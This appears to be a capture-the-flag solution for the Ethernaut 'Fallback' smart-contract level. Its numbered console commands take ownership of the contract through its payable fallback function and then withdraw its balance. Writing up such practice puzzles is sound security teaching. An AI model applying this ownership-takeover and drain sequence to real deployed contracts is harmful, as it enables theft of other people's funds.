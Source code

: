 ## Fallback Solution


1. Check current contract balance  
`fromWei(await getBalance(contract.address))`  
"0"

2. Check owner contributions  
`fromWei(await contract.contributions(await contract.owner()))`  
"1000"

3. Fallback payable function changes the contract's owner but senders contributions must be bigger than 0  
`contract.contribute({value: toWei(0.0001)});`

4. Check if contribution is valid  
`fromWei(await contract.contributions(player))`  
"0.0001"

5. Call fallback payable function  
`await contract.sendTransaction({from: player, value: toWei(0.001), gas: 90000 })`

6. Check if player is the owner.  
`player === (await contract.owner())`  
true

7. Withdraw funds.  
`await contract.withdraw()`

8. Submit Instance 🎉
